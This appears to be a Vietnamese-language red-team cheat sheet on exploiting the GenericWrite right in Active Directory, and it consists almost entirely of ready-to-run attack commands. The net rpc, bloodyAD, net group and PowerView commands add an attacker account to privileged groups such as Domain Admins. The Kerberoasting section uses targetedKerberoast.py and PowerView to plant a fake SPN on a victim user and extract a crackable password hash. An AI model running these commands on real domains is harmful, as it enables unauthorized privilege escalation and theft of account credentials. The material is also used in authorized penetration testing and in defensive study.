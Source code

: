 # GenericWrite

## GenericWrite đối với Group

### Thao túng tài khoản (T1098)

#### Net RPC – Samba (Linux)

Thêm người dùng vào nhóm đặc quyền (như Domain Admins) để leo thang đặc quyền.

{% code overflow="wrap" %}

```bash
net rpc group addmem "<target_group>" <attacker_user> -U <domain>/<attacker_user>%<attacker_password> -S <dc_ip>
```

{% endcode %}

#### BloodyAD (Linux)

Thêm người dùng vào nhóm đặc quyền để leo thang đặc quyền.

{% code overflow="wrap" %}

```bash
bloodyAD --host "<dc_ip>" -d "<domain>" -u "<attacker_user>" -p "<attacker_password>" add groupMember "<target_group>" "<attacker_user>"
```

{% endcode %}

#### Net Command (Windows)

Thêm người dùng vào nhóm đặc quyền để leo thang đặc quyền.

```powershell
net group "<target_group>" <attacker_user> /add /domain
```

#### PowerView (Windows)

Thêm người dùng hoặc nhóm vào một nhóm đặc quyền để leo thang đặc quyền.

{% code overflow="wrap" %}

```powershell
powershell -ep bypass
Import-Module .PowerView.ps1
$SecPassword = ConvertTo-SecureString '<attacker_password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<attacker_user>', $SecPassword)
Add-DomainGroupMember -Identity '<target_group>' -Members '<attacker_user>' -Credential $Cred
```

{% endcode %}

## GenericWrite đối với User

### Kerberoasting (T1558.003)

#### TargetedKerberoast (Linux)

Yêu cầu vé TGS từ tài khoản dịch vụ, trích xuất hash mật khẩu để bẻ khóa ngoại tuyến.

{% code overflow="wrap" %}

```bash
./targetedKerberoast.py --dc-ip '<dc_ip>' -v -d '<domain>' -u '<attacker_user>' -p '<attacker_password>'
```

{% endcode %}

#### PowerView (Windows)

Yêu cầu vé TGS từ tài khoản dịch vụ, trích xuất hash mật khẩu để bẻ khóa ngoại tuyến.

{% code overflow="wrap" %}

```powershell
powershell -ep bypass
Import-Module .PowerView.ps1
Set-DomainObject -Identity '<target_user>' -Set @{serviceprincipalname='nonexistent/hacking'}
Get-DomainUser '<target_user>' | Select serviceprincipalname
$User = Get-DomainUser '<target_user>'
$User | Get-DomainSPNTicket
```

{% endcode %}

